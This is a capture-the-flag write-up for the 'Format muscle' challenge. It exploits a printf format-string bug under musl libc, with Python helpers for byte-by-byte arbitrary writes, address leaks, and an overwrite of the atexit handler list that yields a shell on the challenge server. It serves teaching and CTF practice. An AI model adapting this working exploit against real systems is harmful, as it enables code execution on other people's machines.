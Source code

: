 # Format muscle (37 solves)

- **Author: 7Rocky**
- **Difficulty: easy**
- **Theme: Format String bug, musl libc**

### Description

Hope your format string muscles are strong!

## Writeup

We are given a binary called `format-muscle`:

```console
$ checksec format-muscle              
[*] './format-muscle'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
```

The reverse-engineering step is quite simple. This is the original C code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
	char data[256];

	setbuf(stdout, NULL);

	do {
		fgets(data, sizeof(data), stdin);
		printf(data);
	} while (strncmp(data, "quit", 4));

	exit(0);
}
```

As can be seen, we have a `do`-`while` loop that allows us to enter data in a buffer that will be printed out with `printf`, as the first argument. So, we have a clear Format String bug:

```console
$ nc format-muscle.chal.crewc.tf 1337
== proof-of-work: disabled ==
%d
-1562537493
%lx
7f3da2dd91ec
%p
0x7f3da2dd91eb
```

However, it is a bit more difficult to exploit because we are dealing with musl libc, which does not implement positional format specifiers like `%7$p`, so we must deal with this and craft a payload without dollar signs to achieve code execution.

Although `pwntools` allows a parameter `no_dollars` in `fmtstr_payload`, I implemented the following helper functions for the arbitrary write primitive:

```python
def write_byte(byte: int, addr: int):
    assert 0 <= byte < 2 ** 8
    io.sendline(b'%c%c%c%c' + f'.%{byte + 248}c%c'.encode() + b'%c%c%hhn' + p64(addr))
    io.recv()


def write_qword(qword: int, addr: int):
    assert 0 <= qword < 2 ** 64
    for i in range(8):
        write_byte((qword >> (8 * i)) & 0xff, addr + i)
```

So, first of all, we can get leaks for musl libc and the ELF:

```python
    io.sendline(b'%p')
    musl_libc.address = int(io.recv().decode(), 16) - 0xae1eb
    io.success(f'musl libc base address: {hex(musl_libc.address)}')

    elf_address_str = musl_libc.address + 0xaf561
    io.sendline(b'%p%p%p%p' + b'%p%p%p%s' + p64(elf_address_str))
    io.recvuntil(hex(u64(b'%p%p%p%s')).encode())
    elf.address = u64(b'\0' + io.recv(5) + b'\0' * 2)
    io.success(f'ELF base address: {hex(elf.address)}')
    io.recv()
```

Although there are approaches like modifying return addresses in functions inside `printf`, this time I chose to modify the list of exit functions. You can find the relevant source code [here](https://github.com/kraj/musl/blob/kraj/master/src/exit/atexit.c).

For this, I used a writeable address within the binary to store a fake `struct fl`:

```c
/* Ensure that at least 32 atexit handlers can be registered without malloc */
#define COUNT 32

static struct fl
{
	struct fl *next;
	void (*f[COUNT])(void *);
	void *a[COUNT];
} builtin, *head;
```

Since the exit functions list is started from the end, we must enter the function `system` and the address of `"/bin/sh"` as the argument at the end of the `f` and `a` lists:

```python
    struct_fl_addr = musl_libc.address + 0xafc48
    fake_struct_fl_addr = elf.address + 0x4200

    write_qword(fake_struct_fl_addr, struct_fl_addr)
    write_qword(fake_struct_fl_addr, fake_struct_fl_addr)
    write_qword(musl_libc.sym.system, fake_struct_fl_addr + 0x100)
    write_qword(next(musl_libc.search(b'/bin/sh\0')), fake_struct_fl_addr + 0x200)
```

Then, we just exit the program entering `quit` and we will have a shell:

```console
$ python3 solve.py format-muscle.chal.crewc.tf 1337
[*] './format-muscle'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[+] Opening connection to format-muscle.chal.crewc.tf on port 1337: Done
[+] musl libc base address: 0x79942bf62000
[+] ELF base address: 0x5c1e33f52000
[*] Switching to interactive mode
$ cat /flag
crew{why_n0t_%1337$p_1n_musl???}
```
